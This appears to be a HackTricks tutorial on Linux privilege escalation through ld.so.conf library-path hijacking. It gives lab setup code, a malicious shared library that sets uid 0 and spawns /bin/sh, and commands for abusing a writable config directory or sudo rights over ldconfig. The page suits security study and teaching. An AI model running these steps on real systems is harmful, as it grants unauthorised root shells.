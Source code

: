 ## Prepare the environment

In the following section you can find the code of the files we are going to use to prepare the environment

sharedvuln.clibcustom.hlibcustom.c
```
#include <stdio.h>
#include "libcustom.h"

int main(){
    printf("Welcome to my amazing application!\n");
    vuln_func();
    return 0;
}
```

```
#include <stdio.h>

void vuln_func();
```

```
#include <stdio.h>

void vuln_func()
{
    puts("Hi");
}
```

1. Create those files in your machine in the same folder

2. Compile the library: `gcc -shared -o libcustom.so -fPIC libcustom.c`

3. Copy `libcustom.so` to `/usr/lib`: `sudo cp libcustom.so /usr/lib` (root privs)

4. Compile the executable: `gcc sharedvuln.c -o sharedvuln -lcustom`

### Check the environment

Check that libcustom.so is being loaded from /usr/lib and that you can execute the binary.

```
$ ldd sharedvuln
	linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
	libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln 
Welcome to my amazing application!
Hi
```

## Exploit

In this scenario we are going to suppose that someone has created a vulnerable entry inside a file in /etc/ld.so.conf/:

```
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

The vulnerable folder is /home/ubuntu/lib (where we have writable access).
Download and compile the following code inside that path:

```
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```

Now that we have created the malicious libcustom library inside the misconfigured path, we need to wait for a reboot or for the root user to execute `ldconfig` (in case you can execute this binary as sudo or it has the suid bit you will be able to execute it yourself).

Once this has happened recheck where is the `sharevuln` executable loading the `libcustom.so` library from:

```
$ldd sharedvuln
	linux-vdso.so.1 =>  (0x00007ffeee766000)
	libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```

As you can see it's loading it from `/home/ubuntu/lib` and if any user executes it, a shell will be executed:

```
$ ./sharedvuln 
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```

Note that in this example we haven't escalated privileges, but modifying the commands executed and waiting for root or other privileged user to execute the vulnerable binary we will be able to escalate privileges.

### Other misconfigurations - Same vuln

In the previous example we faked a misconfiguration where an administrator set a non-privileged folder inside a configuration file inside `/etc/ld.so.conf.d/`.
But there are other misconfigurations that can cause the same vulnerability, if you have write permissions in some config file inside `/etc/ld.so.conf.d`s, in the folder `/etc/ld.so.conf.d` or in the file `/etc/ld.so.conf` you can configure the same vulnerability and exploit it.

## Exploit 2

Suppose you have sudo privileges over `ldconfig`.
You can indicate `ldconfig` where to load the conf files from, so we can take advantage of it to make `ldconfig` load arbitrary folders.
So, lets create the files and folders needed to load "/tmp":

```
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```

Now, as indicated in the previous exploit, create the malicious library inside `/tmp`.
And finally, lets load the path and check where is the binary loading the library from:

```
ldconfig -f fake.ld.so.conf

ldd sharedvuln
	linux-vdso.so.1 =>  (0x00007fffa2dde000)
	libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```

As you can see, having sudo privileges over `ldconfig` you can exploit the same vulnerability.

Learn & practice AWS Hacking:
Learn & practice GCP Hacking: 

Support HackTricksCheck the !

Join the 💬  or the  or follow us on Twitter 🐦 .

Share hacking tricks by submitting PRs to the  and  github repos.
